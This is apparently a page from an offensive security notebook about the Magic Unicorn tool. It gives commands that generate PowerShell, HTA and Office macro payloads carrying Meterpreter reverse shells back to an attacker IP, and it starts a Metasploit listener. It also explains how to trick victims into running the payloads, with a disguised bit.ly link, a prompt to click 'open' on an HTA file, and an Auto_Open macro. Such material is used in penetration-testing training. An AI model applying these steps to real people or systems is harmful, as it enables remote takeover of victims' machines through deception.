# Magic Unicorn

{% embed url="https://github.com/trustedsec/unicorn" %}

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.

```
git clone https://github.com/trustedsec/unicorn.git

./unicorn.py
```

### **Powershell Attack**

```
./unicorn.py windows/meterpreter/reverse_tcp 192.168.1.109 4444
```

Now this will give us two files. One is a text file named “powershell\_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

```
msfconsole -r unicorn.rc

# or if msf is already running :
msf> resource unicorn.rc
```

deliver the payload from powershell\_attack.txt file to the victim (via CMD or somewhere else) and you have a shell.

### **HTA Attack**

```
./unicorn.py windows/meterpreter/reverse_https 192.168.1.109 4455 hta
```

Now convert your IP in bit.ly URL form and send to the victim and then wait for the user to click on the “launcher.hta” file which could be done using social engineering easily.

{% hint style="info" %}
The victim has to open the link to your hosted index.html file and click "open" when prompt for the HTA file to run.&#x20;
{% endhint %}

### **Macro Attack**

```
./unicorn.py windows/meterpreter/reverse_https 192.168.1.109 443 macro
```

This again creates a text file and a “**.rc**” file with the same name and on the same destination.

To enable developer mode there are various methods depending upon your version of MS office.

As for a generic approach, let’s say you enabled it like:

**File->properties->ribbons->developer mode**

![](<../.gitbook/assets/image (296).png>)

You will see an extra tab labeled developer once it gets enabled.

As for the attack, go to developer->macros and create a new macro named “Auto\_Open”

![](<../.gitbook/assets/image (295).png>)

Simply paste the contents from “powershell\_attack.txt” to this xlsx module and save it.

![](<../.gitbook/assets/image (298).png>)

As soon as you click run (little green icon on the top), it will give you an error! Don’t worry! You want that error. It is supposed to happen.

![](<../.gitbook/assets/image (301).png>)









